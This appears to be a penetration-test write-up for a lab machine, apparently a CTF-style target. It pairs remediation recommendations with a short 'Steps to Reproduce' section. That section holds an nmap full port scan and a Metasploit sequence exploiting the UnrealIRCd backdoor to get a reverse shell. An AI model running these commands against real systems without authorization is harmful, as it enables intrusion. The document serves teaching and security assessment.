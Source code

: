 ### Flags / Card Faces (Discovery)
> Long list collapsed for readability. Expand to view notes and commands.

<details><summary>Show discovered "card" flags and short notes</summary></details>

---

## Recommendations
*Immediate (0–7 days)*
- Patch or remove vulnerable services (UnrealIRCd, pkexec fixes).
- Rotate/replace all exposed credentials; invalidate plaintext credentials discovered in DB.
- Restrict or remove public-facing services not required for production.

*Short-term (7–30 days)*
- Disable unused services (FTP, unused HTTP endpoints).
- Enforce least privilege for services and users.
- Harden configs (disable directory listings, remove default creds).

*Medium-term (30–90 days)*
- Implement network segmentation and container isolation.
- Deploy host-based EDR or monitoring to detect stealthy access (port-knocking, hidden mounts).
- Introduce automated vulnerability scanning & patch management.

*Long-term / Strategic*
- Comprehensive secure development lifecycle (secure coding, input validation).
- Regular pentests and bug bounty programs for continuous assessment.
- Data governance for secure storage, encryption, and retention policies.

---

## Steps to Reproduce (Commands)
> Use these commands in a safe lab environment; *do not* run against production without authorization.

### Enumeration
bash
# Full TCP port scan with service detection and default scripts
nmap -p- -sV -sC 10.0.2.15


### Example Metasploit usage
text
# UnrealIRCd backdoor (example)
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.0.2.15
set RPORT 6697
set LHOST <your-ip>
exploit

